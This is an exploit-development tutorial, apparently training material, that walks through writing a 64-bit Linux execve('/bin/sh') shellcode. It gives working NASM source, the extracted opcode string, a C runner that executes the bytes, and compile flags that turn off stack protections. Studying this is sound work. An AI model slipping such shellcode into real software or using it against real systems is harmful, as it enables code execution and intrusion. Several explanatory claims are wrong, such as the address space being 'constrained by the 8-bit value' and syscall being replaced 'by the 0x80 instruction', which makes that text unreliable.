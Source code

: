 :orphan:
(linux-exploitation-x64-shellcode)=

# Linux Exploitation: x64 shellcode

Let's try to write a `64-bit` Linux shellcode.

Before we can do that, let's lay the groundwork for the distinctions between the `x86` and `x64` architectures.

## x64 Architecture

The `64-bit` architecture is the result of hardware advancements to which software had to adapt.

The `32-bit` architecture provides registers and addresses with a size of `32 bits` (`4 bytes`).
In this manner, the address space is constrained by the `8-bit` value.

The amount of memory accessible with `64-bit` is significantly greater. As `64-bits` are equivalent to `8 bytes`, all registers and addresses on a `64-bit` architecture are double the size.

In addition, the number of registers in `64-bit` processors has grown.

As they are also larger, they have been given a new naming convention; their names all begin with `"R"`

Thus, in place of `EAX`, `EBX`, and `ECX`, there are `RAX`, `RBX`, and `RCX`. They are all `64 bits` (`8 bytes`) wide.

The individual sections of a register are directly accessible. On `64-bit` architectures, you can refer to `EAX` of `RAX` in the same way that you could access `AH` or `AX` of `EAX` on `32-bit` architectures.

In addition, a number of new general-purpose registers were added to facilitate more complex operations.

In x64, the following registers exist:

```nasm
rax ; register a extended
rbx ; register b extended
rcx ; register c extended
rdx ; register d extended
rbp ; register base pointer
rsp ; register stack pointer
rsi ; register source index
rdi ; register destination index
```

And the new registers are:

```nasm
r8 ; register 8
r9 ; register 9
r10 ; register 10
r11 ; register 11
r12 ; register 12
r13 ; register 13
r14 ; register 14
r15 ; register 15
```

The existence of new registers also influences the manner in which functions are called. No additional arguments are added to the stack.

Instead, the first six arguments are passed to a function as follows:

- `rdi, rsi, rdx, rcx, r8d, r9d`
- The remainder of the arguments are passed through the stack.

From the perspective of exploit development, all these changes present a new obstacle:

- A vast address space makes brute-force attacks difficult, if not impossible.

- As function arguments are not taken from the stack, `Ret2Libc` and similar attacks are limited. Before calling a function, the attacker must execute code that loads the parameters into the appropriate registers.

When dealing with buffer overflows on `x64` systems, you may also encounter instances in which the mapped address space is constrained by a `6-byte` hex number. This indicates that you cannot overwrite the `EIP` with `0x4141414142424242`.

The only address available will be `0x0000414243444546`, so exploit buffers must terminate after overwriting the `EIP`.

Exploiting `64-bit` systems is commonly associated with Return Oriented Programming and is regarded as a complex topic. In [this course](https://www.mosse-institute.com/certifications/mvre-vulnerability-researcher-and-exploitation-specialist.html), you will practice exploitation techniques against both insecure and secure `x64` Linux systems.

While `x64` itself is difficult to exploit, `x64` shellcoding is significantly simpler.

## Writing x64 shellcode

On a 64-bit platform, we will continue to use `nasm`, `gcc`, and `binutils` to build shellcode:

```bash
sudo apt-get install nasm binutils gcc
```

Additionally, we will utilize the same shellcode tester application:

```cpp
#include <stdio.h>
#include <string.h>

unsigned char code[] = "\x48\x31\xd2\x52....";

int main() {
    printf("shellcode length: %d\n", strlen(code));
    int (*ret)() = (int(*)())code;
    ret();
}
```

This time, we will create `64-bit` Assembly code.

Note that `32-bit` applications can run on `64-bit` systems, but `64-bit` applications cannot run on `32-bit` systems.

A bash-spawning shellcode's Assembly code will be comparable to the `32-bit` version. We will use the `execve` system call that begins a process, place its arguments in the appropriate registers, and then execute the `syscall` instruction (on `x64`, this is replaced by the `0x80` instruction).

First, we will start with the proper syscall. For `execve` on `x64`, it is `59`:

```bash
vim /usr/include/x86_64-linux-gnu/asm/unistd_64.h
```

![asm](images/linux-exploitation-04.png)

On `x64`, the arguments did not change. Still, the first argument is the program to be executed, the second is the program's arguments, and the third is the program's environment variables.

As with `32-bit` shellcode, we need only point the first argument to `"/bin/bash"` and leave the remaining two arguments blank (`NULL`).

Before executing the syscall, the syscall number must be placed in `RAX`, while `RDI`, `RSI`, and `RDX` contain the arguments to execute.

Therefore, `RDI` will contain a pointer to `"/bin/sh"` and `RSI` will contain a pointer to an array of strings (arguments).

In this instance, we will not pass any arguments or environment variables to the program we wish to launch, so the only element of that array will be a nested pointer to the `/bin/sh` address (pointer to pointer).

`RDX`, the final argument, can be null.

Let's begin writing Assembly code. You will notice that it differs little from the `x86` version:

```nasm
section .text
  global _start               ; we inform the system where the program begins

_start:
  xor rdx, rdx                ; zero out rdx
  push rdx                    ; push it onto the stack
  mov rax, 0x68732f2f6e69622f ; we can push „hs//nib/” as one value, after all it is 64-bit
  push rax                    ; we push it onto the stack, so it lands at some address on the stack
  mov rdi, rsp                ; that address is where esp points to, so we store it in rdi => pointer to „/bin/sh”
  push rdx                    ; we push 0, as it will be the null termination of the array
push rdi                      ; the address of „/bin/sh” is pushed onto the stack, it lands under another stack address
mov rsi, rsp                  ; we store that address into rsi. So rsi contains a pointer to a pointer to „/bin/sh”
xor rax, rax                  ; zero out eax to keep it clean
mov al, 0x3b                  ; 59 DEC, we move it to the lowest eax part to avoid nulls.
syscall                       ; all arguments are set up, syscall time
```

Compilation is similar to what we did for `x86`, with the exception that we will instruct the compiler to generate an `x64` executable:

```bash
nasm -f elf64 -o shellcode.o shellcode.asm
ld -m elf_x86_64 -s -o shellcode shellcode.o
```

![asm](images/linux-exploitation-11.png)

Let's extract the opcodes from the executable using the `extractor.sh` script:

```bash
#!/bin/bash
if [ -z "$1" ]
then
    echo "Usage: $0 <path to executable>"
    exit
fi

objdump -d $1|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

or just command:

```bash
objdump -d ./shellcode|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

![a](images/linux-exploitation-15.png)

Then, we will copy and paste them into the shellcode tester application. Here is the complete shellcode tester program's source code:

```cpp
#include <stdio.h>
#include <string.h>

unsigned char code[] = "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e\x2f\x73\x68\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05";

int main() {
    printf("shellcode length: %d\n", strlen(code));
    int (*ret)() = (int(*)())code;
    ret();
}
```

Now, we compile it to test whether the shellcode works:

```bash
gcc -m64 -z execstack -fno-stack-protector -o run run.c
```

![a](images/linux-exploitation-18.png)

Then, run:

```bash
./run
```

![asmfinal](images/linux-exploitation-23.png)

As you can see, shellcoding in `x86` and `x64` is comparable. However, the Assembly code must be modified according to the rules enforced by the underlying architecture.

It boils down to calling the appropriate syscalls and setting their arguments in the correct order.

[x64 syscalls](https://x64.syscall.sh/)

[x86 syscalls](https://x86.syscall.sh/)

:::{seealso}
Looking to expand your knowledge of vulnerability research and exploitation? Check out our online course, [MVRE - Certified Vulnerability Researcher and Exploitation Specialist](https://www.mosse-institute.com/certifications/mvre-vulnerability-researcher-and-exploitation-specialist.html)
::: In this course, you'll learn about the different aspects of software exploitation and how to put them into practice.**
